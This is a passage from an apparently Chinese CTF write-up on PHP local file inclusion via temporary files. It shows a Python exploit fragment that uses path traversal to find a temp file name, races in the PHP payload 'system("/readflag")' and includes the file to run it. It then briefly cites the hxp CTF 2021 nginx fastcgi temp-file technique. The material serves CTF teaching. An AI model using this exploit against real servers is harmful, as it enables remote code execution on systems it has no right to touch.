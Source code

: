 ```python
Vary: Accept-Encoding
Content-Length: 534
Content-Type: text/html; charset=UTF-8
{}'''.format('A'* 5000000).replace("\n","\r\n")
    c.send(resp)


    # get filename
    r2 = requests.get("http://192.168.34.1:8004/.well-known../"+ dirname + "/")
    try:
        tmpname = "php" + re.findall(">php(.*)<\/a",r2.text)[0]
        print("[DEBUG]:" + tmpname)
    except IndexError:
        l.close()
        r.close()
        print("[ERROR]: IndexErorr")
        continue
    def job():
        time.sleep(0.01)
        phpcode = 'wtf<?php system("/readflag");?>';
        c.send(phpcode)

    t = threading.Thread(target = job)
    t.start()

    # file_get_contents and include tmp file
    exp_file = dirname + "/" + tmpname
    print("[DEBUG]:"+exp_file)
    r3 = requests.post("http://192.168.34.1:8004/", data={'file':exp_file})
    print(r3.status_code,r3.text)
    if "wtf" in r3.text:
        break

    t.join()
    r.close()
    l.close()
    #r.interactive()
```

## 包含nginx的fastcgi的临时文件

参考hxp CTF 2021[Includer's revenge]

[https://tttang.com/archive/1384/#toc_0x02-includers-revenge-nginx-fastcgi-temp-lfi](https://tttang.com/archive/1384/#toc_0x02-includers-revenge-nginx-fastcgi-temp-lfi)

这里用到的打法是

- Nginx 在后端 Fastcgi 响应过大 或 请求正文 body 过大时会产生临时文件
- 通过多重链接绕过 PHP LFI stat 限制完成 LFI

源码
